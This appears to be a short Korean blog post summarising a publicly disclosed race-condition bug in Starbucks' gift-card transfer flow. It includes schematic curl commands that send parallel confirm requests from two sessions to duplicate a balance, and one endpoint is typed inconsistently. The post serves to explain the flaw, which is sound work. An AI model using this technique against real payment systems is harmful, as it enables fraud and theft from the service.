 ```yaml
---
layout: post
title: "Hacking Starbucks for unlimited coffee"
date: 2015-07-17 20:15:05 +0900
comments: true
categories: 
---
```


[Hacking Starbucks for unlimited coffee](http://sakurity.com/blog/2015/05/21/starbucks.html)

Sakurity 의 글 하나를 요약해본다.

#### race condition

```
POST /step1?amount=1&from=wallet1&to=wallet2
POST /step2?confirm
```

로 two steps 로 되어있는데,

```
curl starbucks/step1 -H Cookie: session=session1 --data amount=1&from=w1&to=w2
curl starbucks/step1 -H Cookie: session=session2 --data amount=1&from=w1&to=w2

curl starbucks/step2confirm -H Cookie: session=session1 & curl starbucks/step2?confirm -H Cookie: session=session2
```

세션 2 개를 만들어서 대여섯번 시도하니, 돈이 복사가 되었다고 한다. 게임에 많이 나오는 돈복사 버그.
